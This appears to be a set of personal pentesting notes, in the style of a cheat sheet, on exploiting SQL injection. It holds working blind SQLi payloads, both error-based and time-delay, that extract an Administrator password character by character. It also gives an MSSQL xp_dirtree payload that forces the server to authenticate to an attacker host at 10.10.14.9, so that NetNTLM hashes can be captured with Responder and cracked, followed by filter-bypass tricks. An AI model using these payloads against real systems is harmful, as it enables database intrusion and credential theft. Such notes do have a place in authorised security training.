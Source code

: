 
## Inducing conditional responses by triggering SQL errors
To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:
```
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the case expression evaluates to NULL, which does not cause any error. With the second input, it evaluates to 1/0, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:
```
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users—
```
## Exploiting blind SQL injection by triggering time delays
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```
* attack
```
'; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'—
```



# mssql Capture and crack NetNTLM hash
---
the MSSQL Server service account can be made to initiate a remote
SMB connection using the command below.
```
'+EXEC+master.sys.xp_dirtree+'\\10.10.14.9\share--
```

si corremos responder en 10.10.14.9 vamos a pegar hashes

# SQL filter bypass
---
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

AND, OR operators
AND = &&
OR = ||
